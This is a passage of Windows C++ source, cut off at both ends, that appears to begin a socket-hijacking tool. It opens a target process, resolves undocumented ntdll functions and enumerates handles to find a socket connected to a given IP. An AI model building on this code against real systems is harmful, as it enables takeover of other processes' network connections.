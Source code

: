 ```cpp
	USHORT MaximumLength;
	PWSTR Buffer;
} UNICODE_STRING, * PUNICODE_STRING;


typedef enum _POOL_TYPE
{
	NonPagedPool,
	PagedPool,
	NonPagedPoolMustSucceed,
	DontUseThisType,
	NonPagedPoolCacheAligned,
	PagedPoolCacheAligned,
	NonPagedPoolCacheAlignedMustS
} POOL_TYPE, * PPOOL_TYPE;

typedef struct _OBJECT_NAME_INFORMATION
{
	UNICODE_STRING Name;
} OBJECT_NAME_INFORMATION, * POBJECT_NAME_INFORMATION;

PVOID GetLibraryProcAddress(const char *LibraryName, const char *ProcName)
{
	return GetProcAddress(GetModuleHandleA(LibraryName), ProcName);
}

SOCKET findTargetSocket(DWORD dwProcessId, LPSTR dstIP) {
	HANDLE hProc;
	PSYSTEM_HANDLE_INFORMATION handleInfo;
	DWORD handleInfoSize = 0x10000;
	NTSTATUS status;
	DWORD returnLength;
	WSAPROTOCOL_INFOW wsaProtocolInfo = { 0 };
	SOCKET targetSocket;

	// Open target process with PROCESS_DUP_HANDLE rights
	hProc = OpenProcess(PROCESS_DUP_HANDLE, FALSE, dwProcessId);
	if (!hProc) {
		printf("[!] Error: could not open the process!\n");
		exit(-1);
	}
	printf("[+] Handle to process obtained!\n");

	// Find the functions
	_NtQuerySystemInformation NtQuerySystemInformation = (_NtQuerySystemInformation)GetLibraryProcAddress("ntdll.dll", "NtQuerySystemInformation");
	_NtDuplicateObject NtDuplicateObject = (_NtDuplicateObject)GetLibraryProcAddress("ntdll.dll", "NtDuplicateObject");
	_NtQueryObject NtQueryObject = (_NtQueryObject)GetLibraryProcAddress("ntdll.dll", "NtQueryObject");

	// Retrieve handles from the target process
	handleInfo = (PSYSTEM_HANDLE_INFORMATION)malloc(handleInfoSize);
	while ((status = NtQuerySystemInformation(SystemHandleInformation, handleInfo, handleInfoSize, NULL)) == STATUS_INFO_LENGTH_MISMATCH)
		handleInfo = (PSYSTEM_HANDLE_INFORMATION)realloc(handleInfo, handleInfoSize *= 2);

	printf("[+] Found [%d] handles in PID %d\n============================\n", handleInfo->HandleCount, dwProcessId);

	// Iterate 
	for (DWORD i = 0; i < handleInfo->HandleCount; i++) {

```